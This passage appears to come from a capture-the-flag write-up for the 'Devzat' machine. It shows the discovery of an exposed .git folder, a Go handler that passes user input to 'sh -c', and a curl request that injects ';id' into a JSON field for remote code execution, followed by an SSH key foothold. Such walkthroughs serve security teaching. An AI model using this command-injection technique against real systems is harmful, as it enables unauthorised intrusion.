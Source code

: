 But we are also not yet finished with scanning:
* A directory scan on the landing page does not yield anything
* A vhost scan will reveal the domain `pets.devzat.htb`. We visit this domain
and play around a bit, but it's not clear how we can utilize this site.
* Finally, a directory scan on this subdomain reveals a `.git` folder!

We can access `http://pets.devzat.htb/.git/` and see that directory
listing is also enabled - that's very convenient and makes it easy
to download the contents of the git folder.
For this task, there is also a nifty tool called [git-dumper](https://github.com/arthaud/git-dumper),
which can also be used if directory listing is disabled.

As we now have access to the source of the site, let's dig into it -
the following lines are the interesting pieces inside `main.go`:
```go
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	// ...
}

func addPet(w http.ResponseWriter, r *http.Request) {
	// ...
	addPet.Characteristics = loadCharacter(addPet.Species)
	// ...
}
```
We found a pretty obvious RCE!


## User

Let's try the RCE we just found:
```plain
$ curl -X POST 'http://pets.devzat.htb/api/pet' -d '{"name":"test","species":";id"}'
```

Visiting the website then shows this entry:
> cat: characteristics/: Is a directory uid=1000(patrick) gid=1000(patrick) groups=1000(patrick)

Now, we just have to upload our SSH pubkey and can then login as user "patrick".
Unfortunately, there is no user flag in patrick's home directory. Upon listing
the `/home` directory, we notice there is another user called "catherine".

I like reading source code, so I'm having a look in the `devzat` folder in patrick's
home dir. In `~/devzat/devchat.go` we see there is some special handling when
we are connecting locally:
```plain
patrick@devzat:~$ ssh 127.0.0.1 -p 8000
admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
```
